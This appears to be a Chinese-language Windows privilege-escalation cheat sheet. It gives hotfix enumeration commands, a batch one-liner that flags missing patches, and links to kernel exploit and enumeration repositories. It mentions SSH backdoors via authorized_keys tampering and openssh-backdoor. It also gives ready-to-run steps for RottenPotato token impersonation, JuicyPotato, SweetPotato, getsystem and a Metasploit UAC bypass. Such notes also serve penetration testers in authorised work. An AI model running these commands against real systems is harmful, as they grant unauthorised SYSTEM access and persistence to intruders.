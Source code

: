 #  信息收集

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:“KBxxxxxx”

# 04自动信息收集
Host Information Gathering Script：HIGS.bat
https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat
privilege-escalation-awesome-scripts：winPEAS.bat
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

# 提权工具脚本

https://blog.csdn.net/weixin_43873557/article/details/113760973


快速查找exp

systeminfo>micropoor.txt&(for %i in (   KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a  micropoor.txt

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/WindowsExploits/Exploits

## ssh 相关
1.密钥篡改 authorized_keys 
2.重装覆盖 openssh-backdoor https://github.com/Psmths/openssh-backdoor
## RottenPotato
https://github.com/foxglovesec/RottenPotato
```bash
msfmeter> use incognito
msfmeter> list_tokens -u
msfmeter> execute -cH -f C:/Users/test/Desktop/rottenpotato.exe
msfmeter> list_tokens -u
msfmeter> impersonate_token "NT AUTHORITY\SYSTEM"
```
## juicypotato
https://blog.csdn.net/negnegil/article/details/120243657
https://github.com/uknowsec/JuicyPotato
JuicyPotato.exe -t t -p c:\windows\system32\cmd.exe -l 1111 -c {4991d34b-80a1-4291-83b6-3328366b9097}

https://github.com/breenmachine/RottenPotatoNG
https://github.com/antonioCoco/RoguePotato2
https://github.com/CCob/SweetPotato
SweetPotato -a "whoami"
## getSystem
getSystem "whoami"


### bypassuac

```bash
search bypassuac
use exploit/windows/local/bypassuac
options
set session 1
run -j
getuid
getsystem
```
